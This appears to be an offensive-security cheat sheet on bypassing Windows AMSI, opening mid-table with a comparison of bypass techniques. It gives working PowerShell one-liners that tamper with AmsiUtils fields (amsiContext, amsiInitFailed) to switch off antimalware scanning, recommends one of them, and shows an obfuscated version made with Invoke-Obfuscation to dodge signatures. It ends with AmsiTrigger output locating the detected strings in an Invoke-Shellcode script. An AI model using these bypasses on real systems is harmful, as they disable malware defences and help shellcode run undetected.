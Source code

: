 | Nishang All in One                                          | Yes         | Yes          | Possible       |
| Adam Chesters Patch                                         | No          | Yes          | Unlikely       |
| Patching AmsiScanBuffer in System.Management.Automation.dll | Yes         | Yes          | Possible       |

```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)

[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

Use this one:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

>Invoke-obfuscation
>set scriptblock [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
>token
>string
>2

output =
```powershell
[Ref].Assembly.GetType(("{6}{4}{10}{3}{5}{7}{0}{11}{2}{1}{8}{9}"-f'.Auto','U','.Amsi','g','tem.','eme','Sys','nt','ti','ls','Mana','mation')).GetField(("{0}{1}{2}" -f 'amsi','InitFa','iled'),("{1}{0}{4}{2}{3}" -f'c','NonPubli','t','ic',',Sta')).SetValue($null,$true)
```
---
<https://github.com/RythmStick/AMSITrigger/releases/download/v4/AmsiTrigger.exe>

# AMSI-Trigger
```powershell
AmsiTrigger.exe -i=C:\temp\Invoke-Shellcode.ps1 -f=2 -d
```
```powershell
PS C:\temp> AmsiTrigger.exe -i=C:\temp\Invoke-Shellcode.ps1 -f=2 -d
[1]     "Invoke-Shellcode"
[8]     "Invoke-Shellcode"
[34]    "Invoke-Shellcode"
[38]    "Invoke-Shellcode"
[46]    "Invoke-Shellcode"
[54]    "Invoke-Shellcode"
[189]   "Inject-RemoteShellcode"
[301]   "Inject-LocalShellcode"
[491]   "Inject-RemoteShellcode"
[515]   "Inject-LocalShellcode"


Chunks Processed: 17
Triggers Found: 10
AmsiScanBuffer Calls: 2160
Total Execution Time: 3.7543251 s
```
